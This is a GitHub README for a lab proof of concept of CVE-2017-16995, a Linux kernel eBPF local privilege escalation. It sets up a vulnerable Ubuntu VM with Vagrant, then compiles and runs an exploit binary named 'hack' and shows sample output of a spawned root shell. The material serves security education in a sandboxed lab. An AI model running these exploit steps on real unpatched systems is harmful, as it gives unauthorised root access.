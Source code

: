 # security_information_systems

### PoC of [CVE-2017-16995](https://www.cvedetails.com/cve/CVE-2017-16995/)
The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

### Contents
- Vagrantfile
- script.sh

### Instructions
#### Getting all prepared
```shell
git clone https://github.com/Villaquiranm/security_information_systems.git
cd security_information_systems
```
#### Building Vagrant box
```shell
vagrant up
```
If during the build the message **"default: A newer version of the box 'ubuntu/xenial64' is available! You currently"** is diplayed, you will need to run this command.
```shell
vagrant box update
```
At this point it is necessary to wait because last instruction was to make a reboot in order to update all changes. This delay is approximately one minute after a successful build.

#### Accessing to vagrant box
```shell
vagrant ssh
```
If connexion is refused, it is because the box is still rebooting, wait some time and retry.

#### Checking everything
If you follow all steps correctly, now you can see something like this:
```shell
Last login: Sun Nov 25 20:00:11 2018 from 10.0.2.2
vagrant@ubuntu-xenial:~$
```
Your kernel version is "4.4.0-116-generic", you can consult your kernel version with:
```shell
uname -r
```
#### Using the exploit
 First we need to compile our exploit with gcc compiler
 ```shell
 gcc upstream44.c -o hack
 ```
 That will create an executable file called **hack**. Execute it to become sudo.
 ```shell
 ./hack
 ```

Normally the results should be:
```shell
task_struct = ffff880036b38000
uidptr = ffff880036f44784
spawning root shell
root@ubuntu-xenial:~#
```
